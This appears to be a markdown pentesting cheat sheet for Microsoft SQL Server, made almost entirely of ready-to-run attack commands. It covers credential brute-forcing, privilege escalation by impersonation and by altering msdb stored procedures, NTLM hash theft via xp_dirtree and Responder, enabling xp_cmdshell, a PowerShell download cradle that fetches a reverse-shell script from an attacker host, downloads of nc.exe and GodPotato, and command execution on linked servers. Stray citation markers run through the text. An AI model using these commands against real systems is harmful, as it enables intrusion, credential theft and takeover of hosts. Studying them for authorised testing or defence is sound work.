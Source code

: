 # 🎯 MSSQL Pentesting Checklist & Commands

## What am I realistically expecting to find here?

- [x] Service banner revealing SQL Server version (for CVE research)
- [x] Valid credentials via default passwords or brute-force
- [x] Access to database content (user tables, saved passwords, configs)
- [x] Ability to execute system commands via `xp_cmdshell` if enabled
- [x] Ability to enable `xp_cmdshell` if permissions allow
- [x] Possibility to steal NTLM hashes via `xp_dirtree` triggering SMB authentication
- [x] Evidence of linked servers for lateral movement
- [x] **Host Privilege Escalation** via `SeImpersonatePrivilege` (e.g., GodPotato)
- [x] **Database Privilege Escalation** via Impersonation (`EXECUTE AS LOGIN`)
- [x] **Database Privilege Escalation** via `db_ddladmin` abuse (`sp_syspolicy_purge_history`)
- [x] Sensitive data in queryable tables that can be used for further attacks

***

# ✅ MSSQL - Unauthenticated Enumeration

## 🔍 Port Scan & Banner Grabbing

```bash
# Use -A for a comprehensive scan including version info, script scanning, and NTLM info
# The default MSSQL port is 1433/tcp
nmap -p 1433 -A <IP> -oN mssql_nmap.txt
```
## 🔓 Brute-Force Credentials

```c
hydra -l sa -P rockyou.txt -V <IP> mssql
hydra -L users.txt -P passwords.txt <IP> mssql -vV -I -u

# Nmap brute
nmap -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt <IP>

# Use the --local-auth flag for SQL Server authentication [cite: 40]
crackmapexec mssql 192.168.1.198 -u sa -p /usr/share/wordlists/fasttrack.txt --local-auth
```
---
---
---
# ✅ MSSQL - Authenticated Enumeration & Exploitation

```c
# sqsh
sqsh -S <IP> -U sa
sqsh -S <IP> -U sa -P password

# mssqlclient.py (Impacket)
mssqlclient.py <user>:<password>@<IP>
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

## 🧠 Useful Queries (Data Extraction)

```c
-- Get version
select @@version;

-- List databases (Example output: master, tempdb, model, msdb, website_db) [cite: 51, 52, 53]
SELECT name from master.dbo.sysdatabases;

-- Enumerate tables (replace <DB> with target database name) [cite: 54, 55]
SELECT table_name from <DB>.INFORMATION_SCHEMA.TABLES;

-- Dump data from a table (Example output from 'logins' table) [cite: 56, 57]
SELECT * from [DB].[dbo].users;
```

## ⚔️ Database Privilege Escalation

### 1. Impersonation (EXECUTE AS LOGIN)

```c
-- Example SQL to grant IMPERSONATE permission:
USE master;
GRANT IMPERSONATE ON LOGIN::sa to [Zelda];
GO

-- Connect as the low-privilege user and then impersonate:
SQL (zelda guest@master)> enum_impersonate
-- ... output showing GRANT IMPERSONATE on LOGIN 'sa' to 'zelda' [cite: 72, 73]
SQL (zelda guest@msdb)> EXECUTE AS LOGIN = 'sa' [cite: 73]
SQL (sa dbo@msdb)>
```

### 2. db_ddladmin Abuse (sp_syspolicy_purge_history)

If a user (link) is a member of the db_ddladmin database role on the msdb database , they can modify the sp_syspolicy_purge_history system stored procedure to add themselves to the sysadmin server role.


```c
-- Check if user is a sysadmin (should return 0 initially) [cite: 87, 88]
SQL (link guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin')
0  

-- Use the msdb database
SQL (link guest@master)> use [msdb]

-- Alter the stored procedure to add the user to sysadmin [cite: 92, 93]
SQL (link link@msdb)> ALTER PROCEDURE [dbo].[sp_syspolicy_purge_history] 
AS 
BEGIN 
    ALTER SERVER ROLE [sysadmin] ADD MEMBER [link] 
END

-- Check again after the procedure has executed (should return 1) [cite: 95, 96]
SQL (link link@msdb)> SELECT IS_SRVROLEMEMBER('sysadmin')
1
```

## 🧲 NTLM Hash Stealing (via xp_dirtree)

```c
# Attacker listener setup (e.g., using Responder)
sudo responder -I eth0

# On the MSSQL server, trigger SMB authentication (assuming connection via impacket-mssqlclient)
SQL (link dbo@website_db)> xp_dirtree \\192.168.1.210\shared

# Responder output will show the NTLMv2 hash: [cite: 101, 102]
# [SMB] NTLMv2-SSP Username : BORDERGATE\SERVER1$
# [SMB] NTLMv2-SSP Hash       : ...
```

## 💥 RCE via xp_cmdshell & Host Privilege Escalation

> Enable xp_cmdshell

```c
-- Manual SQL to enable xp_cmdshell:
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 1;
reconfigure;
```

> Impacket Helper Command:

```c
SQL (sa dbo@msdb)> enable_xp_cmdshell
```

> Command Execution Examples

```c
xp_cmdshell 'whoami /all';
xp_cmdshell 'systeminfo';
xp_cmdshell 'net user';
xp_cmdshell 'reg query HKLM /f pass /t REG_SZ /s';
xp_cmdshell 'findstr /si password *.txt *.ini *.config *.xml';
xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://<IP>/Invoke-PowerShellTcp.ps1')";
xp_cmdshell "certutil -urlcache -f 'http://<IP>/nc.exe' nc.exe";
```

> Host Privilege Escalation (via SeImpersonatePrivilege)

```c
-- Check for SeImpersonatePrivilege
xp_cmdshell 'whoami /priv';

-- If enabled, upload and run GodPotato (replace <ATTACKER_IP> with your IP)
SQL (link dbo@msdb)> xp_cmdshell curl 192.168.1.210/GodPotato-NET4.exe -o C:\Windows\Tasks\potato.exe [cite: 124]
SQL (link dbo@msdb)> xp_cmdshell C:\Windows\Tasks\potato.exe -cmd "cmd /c whoami" [cite: 125]
# ... output showing successful escalation:
nt authority\system [cite: 133]
```

## 🗃 Linked Server Exploitation


> Impacket Usage

```c
# Enumerate linked servers (e.g., finding SERVER2 linked via 'sa' credentials) [cite: 141, 142, 145]
SQL (link dbo@master)> enum_links

# Use a linked server and execute a command
SQL (link dbo@master)> use_link SERVER2 [cite: 145]
SQL >SERVER2 (sa dbo@master)> xp_cmdshell hostname [cite: 146]
```

> Manual SQL Commands

```c
-- Enable xp_cmdshell and run commands on the linked server (SERVER2)
EXEC ('exec master.dbo.sp_configure ''show advanced options'',1;RECONFIGURE;exec master.dbo.sp_configure ''xp_cmdshell'', 1;RECONFIGURE;') AT SERVER2 [cite: 148, 149]
EXEC ('exec master..xp_cmdshell ''hostname''') AT SERVER2 [cite: 149, 150]
```




